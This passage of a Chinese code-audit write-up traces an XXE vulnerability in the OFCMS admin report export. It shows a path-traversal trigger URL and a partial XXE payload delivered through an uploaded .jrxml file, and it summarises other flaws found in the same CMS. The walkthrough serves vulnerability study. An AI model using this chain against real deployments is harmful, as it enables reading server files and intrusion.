 在com.ofsoft.cms.admin.controller.ReprotAction类的expReport方法中，接收用户输入的j参数后，拼接生成文件路径，这里没有进行过滤，可以穿越到其它目录，但是限制了文件后缀为jrxml，接下来会调用`JasperCompileManager.compileReport()`方法，跟进该方法看看

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-95cdb688466b96de3274f9dcb8cab238bfa6ec9d.png)

在compileReport方法中又调用了`JRXmlLoader.load()`方法，继续跟踪

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-cc6aa5959f816ff166eb05444354dfd0579d4b20.png)

一直跟到调用`JRXmlLoader.loadXML()`方法，在loadXML方法中调用了Digester类的parse解析我们的XML文档内容，默认是没有禁用外部实体解析的，所以这里是存在XXE漏洞的

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-fe1dcbc24dd705183530a3b066dd3930e5420d9e.png)

这里限制了文件后缀名为jrxml，我们可以利用上面的文件上传写入一个jrxml文件，文件内容为：

```xml
<?xml version="1.0" encoding="UTF-8"?>

    %test;
]>
```

浏览器访问：`http://localhost:8080/ofcms_admin_war/admin/reprot/expReport.html?j=../../static/xxe`触发漏洞

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-286502d1a872b51b6580264fe4d31b837bb05a47.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-212c9b7875ec38e60dc8a65e47049807833212c0.png)

0x3总结
=====

本次审计分析了该CMS的SQL注入、存储型XSS、模板注入、文件上传、XXE漏洞，代码审计要多多进行审计分析，才能更加熟能生巧